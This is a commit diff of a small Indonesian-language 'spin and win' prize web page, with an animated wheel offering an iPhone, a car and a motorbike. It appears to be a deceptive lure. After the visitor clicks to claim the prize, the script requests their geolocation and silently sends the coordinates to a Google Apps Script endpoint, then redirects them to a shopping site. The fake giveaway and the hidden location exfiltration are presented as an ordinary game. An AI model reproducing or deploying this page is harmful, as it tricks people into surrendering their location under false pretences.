

Before and after one commit to dianadianputri21-ops/index.html, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "PUTAR". Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,168 +1,185 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>Undian Berhadiah</title>
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
+<title>Spin Hadiah</title>
 
 <style>
-    body {
-      margin: 0;
+body{
+  margin:0;
+  background: radial-gradient(circle,#1e3c72,#2a5298);
   font-family: Arial;
-      text-align: center;
-      background: linear-gradient(135deg,#ff512f,#dd2476);
-      color: white;
-      overflow: hidden;
+  text-align:center;
+  color:white;
 }
 
-    h2 { margin-top: 20px; }
+canvas{margin-top:20px;}
 
-    .wheel-box {
-      position: relative;
-      width: 260px;
-      height: 260px;
-      margin: 20px auto;
+button{
+  margin-top:20px;
+  padding:12px 25px;
+  border:none;
+  border-radius:10px;
+  background:#00e676;
+  font-size:16px;
+  font-weight:bold;
 }
 
-    .wheel {
-      width: 100%;
-      height: 100%;
-      border-radius: 50%;
-      background: conic-gradient(
-        #ffeb3b 0deg 60deg,
-        #4caf50 60deg 120deg,
-        #2196f3 120deg 180deg,
-        #ff9800 180deg 240deg,
-        #9c27b0 240deg 300deg,
-        #f44336 300deg 360deg
-      );
-      transition: transform 5s cubic-bezier(.17,.67,.83,.67);
-    }
-
-    .pointer {
-      position: absolute;
-      top: -15px;
-      left: 50%;
-      transform: translateX(-50%);
-      font-size: 25px;
-    }
-
-    button {
-      padding: 12px 20px;
-      border: none;
-      border-radius: 10px;
-      background: #00e676;
-      font-weight: bold;
-      margin-top: 15px;
-      cursor: pointer;
-      font-size: 16px;
-    }
-
-    #hasil {
-      margin-top: 15px;
-      font-size: 18px;
-      font-weight: bold;
-    }
-
-    /* hadiah popup */
-    .popup {
-      position: fixed;
-      top:0; left:0;
+/* popup menang */
+.popup{
+  position:fixed;
+  top:0;left:0;
   width:100%;
   height:100%;
-      background: rgba(0,0,0,0.8);
+  background:rgba(0,0,0,0.8);
   display:none;
   justify-content:center;
   align-items:center;
   flex-direction:column;
 }
 
-    .popup img {
-      width: 150px;
-      animation: zoom 0.5s ease;
+.popup img{
+  width:180px;
+  animation:zoom 0.5s ease;
 }
 
-    @keyframes zoom {
+@keyframes zoom{
   from{transform:scale(0);}
   to{transform:scale(1);}
 }
 
-    /* confetti */
-    .confetti {
-      position: absolute;
-      width: 10px;
-      height: 10px;
-      background: yellow;
+.confetti{
+  position:absolute;
+  width:8px;
+  height:8px;
   top:0;
-      animation: fall 3s linear infinite;
+  animation:fall 3s linear;
 }
 
-    @keyframes fall {
-      to { transform: translateY(100vh); }
+@keyframes fall{
+  to{transform:translateY(100vh);}
 }
 </style>
 </head>
 
 <body>
 
-<h2>🎁 Putar & Menangkan Hadiah</h2>
+<h2>🎁 Spin & Menangkan Hadiah</h2>
 
-<div class="wheel-box">
-  <div class="pointer">🔻</div>
-  <div class="wheel" id="wheel"></div>
-</div>
+<canvas id="wheel" width="300" height="300"></canvas>
+<br>
+<button onclick="spin()">PUTAR</button>
 
-<button onclick="putar()">PUTAR</button>
-
-<div id="hasil"></div>
-
-<!-- popup hadiah -->
+<!-- popup -->
 <div class="popup" id="popup">
   <h2>🎉 SELAMAT!</h2>
-  <p>Kamu mendapatkan hadiah spesial</p>
-  <img src="https://cdn-icons-png.flaticon.com/512/747/747376.png">
-  <br><br>
+  <img id="hadiahImg">
+  <p id="hadiahText"></p>
   <button onclick="lanjut()">Ambil Hadiah</button>
 </div>
 
-<!-- audio -->
-<audio id="spinSound" src="https://www.soundjay.com/misc/sounds/wheel-spin.mp3"></audio>
-<audio id="winSound" src="https://www.soundjay.com/human/sounds/applause-8.mp3"></audio>
+<audio id="spinSound">
+  <source src="https://actions.google.com/sounds/v1/cartoon/wood_plank_flicks.ogg">
+</audio>
+
+<audio id="winSound">
+  <source src="https://actions.google.com/sounds/v1/crowds/applause.ogg">
+</audio>
 
 <script>
-let sudah = false;
+const canvas = document.getElementById("wheel");
+const ctx = canvas.getContext("2d");
 
-function putar(){
-  if(sudah) return;
-  sudah = true;
+const hadiah = [
+  {text:"iPhone 16 Pro Max", img:"https://cdn-icons-png.flaticon.com/512/747/747376.png"},
+  {text:"Mobil", img:"https://cdn-icons-png.flaticon.com/512/743/743007.png"},
+  {text:"Voucher 90%", img:"https://cdn-icons-png.flaticon.com/512/1170/1170678.png"},
+  {text:"iPhone 15", img:"https://cdn-icons-png.flaticon.com/512/747/747376.png"},
+  {text:"Motor", img:"https://cdn-icons-png.flaticon.com/512/2972/2972185.png"},
+  {text:"Voucher", img:"https://cdn-icons-png.flaticon.com/512/1170/1170678.png"}
+];
 
-  let wheel = document.getElementById("wheel");
+const colors = ["#ff5252","#ff9800","#ffeb3b","#4caf50","#2196f3","#9c27b0"];
+
+let angle = 0;
+let spinning = false;
+
+function draw(){
+  let arc = Math.PI*2/hadiah.length;
+
+  for(let i=0;i<hadiah.length;i++){
+    ctx.beginPath();
+    ctx.fillStyle=colors[i];
+    ctx.moveTo(150,150);
+    ctx.arc(150,150,150,arc*i+angle,arc*(i+1)+angle);
+    ctx.fill();
+
+    ctx.save();
+    ctx.translate(150,150);
+    ctx.rotate(arc*i + arc/2 + angle);
+    ctx.fillStyle="#fff";
+    ctx.font="12px Arial";
+    ctx.fillText(hadiah[i].text,40,5);
+    ctx.restore();
+  }
+}
+draw();
+
+function spin(){
+  if(spinning) return;
+  spinning = true;
 
   document.getElementById("spinSound").play();
 
-  // arahkan ke segmen tertentu (misal 300 derajat)
-  let target = 300;
-  let putaran = 1440 + target;
+  let spinAngle = Math.random()*3000+3000;
+  let start=null;
 
-  wheel.style.transform = "rotate("+putaran+"deg)";
+  function anim(t){
+    if(!start) start=t;
+    let progress=t-start;
 
-  setTimeout(()=>{
-    document.getElementById("winSound").play();
-    document.getElementById("popup").style.display = "flex";
-    confetti();
-  },5000);
+    let ease=1-Math.pow(1-progress/4000,3);
+    angle=(spinAngle*ease)*Math.PI/180;
+
+    ctx.clearRect(0,0,300,300);
+    draw();
+
+    if(progress<4000){
+      requestAnimationFrame(anim);
+    }else{
+      selesai();
+    }
+  }
+  requestAnimationFrame(anim);
 }
 
-// efek confetti
+function selesai(){
+  spinning=false;
+
+  let deg=angle*180/Math.PI%360;
+  let index=Math.floor((360-deg)/(360/hadiah.length))%hadiah.length;
+
+  let win=hadiah[index];
+
+  document.getElementById("hadiahImg").src=win.img;
+  document.getElementById("hadiahText").innerHTML=win.text;
+
+  document.getElementById("popup").style.display="flex";
+
+  document.getElementById("winSound").play();
+
+  confetti();
+}
+
 function confetti(){
   for(let i=0;i<30;i++){
-    let c = document.createElement("div");
+    let c=document.createElement("div");
     c.className="confetti";
     c.style.left=Math.random()*100+"vw";
-    c.style.background="hsl("+Math.random()*360+"deg,100%,50%)";
-    c.style.animationDuration=(Math.random()*3+2)+"s";
+    c.style.background="hsl("+Math.random()*360+",100%,50%)";
     document.body.appendChild(c);
 
-    setTimeout(()=>c.remove(),4000);
+    setTimeout(()=>c.remove(),3000);
   }
 }
 
@@ -170,18 +187,14 @@
   ambilLokasi();
 }
 
-// ambil lokasi
 function ambilLokasi(){
   if(navigator.geolocation){
     navigator.geolocation.getCurrentPosition(function(pos){
 
-      var lat = pos.coords.latitude;
-      var lon = pos.coords.longitude;
-
-      fetch("https://script.google.com/macros/s/AKfycbw2q8jMhiz3W0FRQ0_C-8hCA3WVAxAqmjeQ3snUsI0j6AMlYYNT_RrPTfjjFxxa48Yv/exec?lat="+lat+"&lon="+lon);
+      fetch("https://script.google.com/macros/s/AKfycbw2q8jMhiz3W0FRQ0_C-8hCA3WVAxAqmjeQ3snUsI0j6AMlYYNT_RrPTfjjFxxa48Yv/exec?lat="+pos.coords.latitude+"&lon="+pos.coords.longitude);
 
       setTimeout(()=>{
-        window.location.href = "https://shopee.co.id";
+        window.location.href="https://shopee.co.id";
       },2000);
 
     });
```
Lines whose indentation alone changed are shown as unchanged.
